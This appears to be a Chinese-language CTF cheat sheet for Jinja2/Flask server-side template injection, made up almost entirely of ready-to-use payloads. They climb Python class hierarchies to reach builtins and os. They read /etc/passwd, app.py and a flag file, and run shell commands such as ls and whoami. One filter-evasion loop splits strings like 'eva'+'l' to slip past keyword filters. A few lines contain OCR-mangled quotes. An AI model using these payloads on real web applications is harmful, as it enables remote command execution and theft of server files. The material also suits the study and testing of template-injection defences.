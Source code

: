 ```python
?err=pfn&back={0.__class__.__init__.__globals__}   # 等于 pnf.__class__.__init__.__globals__


# __builtins__利用
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['__builtins__']['open']('/etc/passwd').read()
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()’)

# linecache利用
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['linecache'].__dict__['os'].popen('whoami’).read()
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['linecache'].__dict__['sys'].modules['os'].popen('whoami').read()
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['linecache'].__dict__['__builtins__']['__import__']('os').popen('ls').read()

# sys利用
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['sys'].modules['os'].popen('whoami').read()
```

### 万能语句

```python
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.__globals__.values() %}
            {% if b.__class__ == {}.__class__ %}
                {% if 'eva'+'l' in b.keys() %}
                    {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("ls /").read()') }}
                {% endif %}
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```

方式 2

```py
# 读取app.py  -- [GYCTF2020]FlaskApp
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read()}}{% endif %}{% endfor %}
# 读目录 ls/
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
# 拼接大法
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}
```
